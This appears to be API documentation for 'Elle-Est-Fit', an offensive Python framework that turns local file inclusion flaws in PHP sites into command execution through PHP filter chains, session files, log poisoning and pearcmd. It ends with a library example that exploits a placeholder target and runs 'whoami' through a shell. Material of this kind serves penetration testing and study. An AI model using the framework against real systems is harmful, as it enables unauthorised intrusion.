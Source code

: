 # Elle-Est-Fit API Documentation

This document provides detailed information about the Elle-Est-Fit framework's architecture, how to use it as a library, and how to extend it with custom techniques.

## Table of Contents

- [Architecture Overview](#architecture-overview)
- [Using Elle-Est-Fit as a Library](#using-elle-est-fit-as-a-library)
- [Creating Custom Techniques](#creating-custom-techniques)
- [Handling Advanced LFI Scenarios](#handling-advanced-lfi-scenarios)
- [API Reference](#api-reference)

## Architecture Overview

Elle-Est-Fit is organized around these key components:

1. **Core Module** (`elle_est_fit/core.py`): Contains the main `LFI` class that orchestrates everything
2. **Techniques** (`elle_est_fit/techniques/`): Individual exploitation methods
3. **Payloads** (`elle_est_fit/payloads/`): Payload generators like filter chains
4. **CLI Interface** (`elle_est_fit/cli.py`): Command-line interface

### Project Structure
```
elle_est_fit/
├── init.py
├── cli.py
├── core.py
├── exceptions.py
├── techniques/
│ ├── init.py
│ ├── base.py
│ ├── php_filters.py
│ ├── php_session.py
│ ├── log_poisening.py
│ ├── pear_cmd.py
│ └── ... (other techniques)
└── payloads/
├── init.py
├── filter_chain.py
└── ... (other payload generators
```

## Using Elle-Est-Fit as a Library

### Basic Usage

```python
from elle_est_fit import LFI

# Create an LFI instance
lfi = LFI(
    target="http://vulnerable.com/index.php?file={}",
    technique="php_filters",
    verbose=True
)

# Attempt to exploit the vulnerability
if lfi.exploit():
    # Execute a command
    output = lfi.shell("whoami")
```